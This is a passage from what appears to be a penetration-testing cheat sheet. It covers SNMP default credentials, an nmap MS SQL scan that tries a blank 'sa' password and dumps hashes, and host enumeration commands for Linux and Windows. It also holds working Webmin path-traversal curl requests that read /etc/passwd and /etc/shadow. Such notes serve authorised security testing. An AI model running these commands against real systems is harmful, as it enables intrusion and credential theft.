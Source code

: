     -   SNMP Default Credentials  
        /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt


-   MS SQL Server Enumeration

    -   Nmap Information Gathering
        
        `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`
        
-   Webmin and miniserv/0.01 Enumeration - Port 10000

      Test for LFI & file disclosure vulnerability by grabbing /etc/passwd
        
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`
        
      Test to see if webmin is running as root by grabbing /etc/shadow
      
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`

-   Linux OS Enumeration

    -   List all SUID files  
        `find / -perm -4000 2>/dev/null`

    -   Determine the current version of Linux  
        `cat /etc/issue`

    -   Determine more information about the environment  
        `uname -a`
        
    -   List processes running  
        `ps -xaf`

    -   List the allowed (and forbidden) commands for the invoking use  
        `sudo -l`

    -   List iptables rules  
        `iptables --table nat --list  
        iptables -vL -t filter  
        iptables -vL -t nat  
        iptables -vL -t mangle  
        iptables -vL -t raw  
        iptables -vL -t security`

-   Windows OS Enumeration


    -   net config Workstation
    
    -   systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
    
    -   hostname
    
    -   net users
    